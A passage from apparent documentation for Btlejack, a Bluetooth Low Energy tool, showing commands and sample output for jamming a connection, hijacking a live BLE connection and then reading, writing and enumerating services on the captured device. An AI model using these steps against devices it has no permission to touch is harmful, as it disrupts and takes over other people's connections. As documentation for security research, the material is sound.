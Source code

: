 or you may also want to specify the target BD address:

```
  $ btlejack -c 03:e1:f0:00:11:22
```

Jamming a connection
--------------------

Once a connection identified by its *access address*, you can provide jam it by using the ``-j`` option:

```
  $ btlejack -f 0x129f3244 -j̀
```

Hijacking a BLE connection
--------------------------

Btlejack is also able to hijack an existing connection, use the ``-t`` option to do so. Once hijacked, Btlejack will give you a prompt allowing you to interact with the hijacked device.

First, hijack an existing connection:

```
  $ btlejack -f 0x9c68fd30 -t -m 0x1fffffffff
  BtleJack version 1.1

  [i] Using cached parameters (created on 2018-08-11 01:48:24)
  [i] Detected sniffers:
   > Sniffer #0: fw version 1.1

  [i] Synchronizing with connection 0x9c68fd30 ...
  ✓ CRCInit: 0x81f733
  ✓ Channel map is provided: 0x1fffffffff
  ✓ Hop interval = 39
  ✓ Hop increment = 9
  [i] Synchronized, hijacking in progress ...
  [i] Connection successfully hijacked, it is all yours \o/
  btlejack>
```

Then use the following commands to interact with the device:
- **discover**: performs services and characteristics enumeration, will give you all the information about services and characteristics
- **write**: write data to a specific value handle
- **read**: read data from a specific value handle
- **ll**: sends a raw link-layer packet (for ninjas)

### *discover* command

The ``discover`` command will send and receive Bluetooth LE packets and retrieve all the services UUIDs and parameters, as well as characteristics UUIDs and parameters:

```
  btlejack> discover
  start: 0001 end: 0005
  start: 0014 end: 001a
  start: 0028 end: ffff
   Discovered services:
  Service UUID: 1801
   Characteristic UUID: 2a05
     | handle: 0002
     | properties: indicate  (20)
     \ value handle: 0003

  Service UUID: 1800
   Characteristic UUID: 2a04
     | handle: 0019
```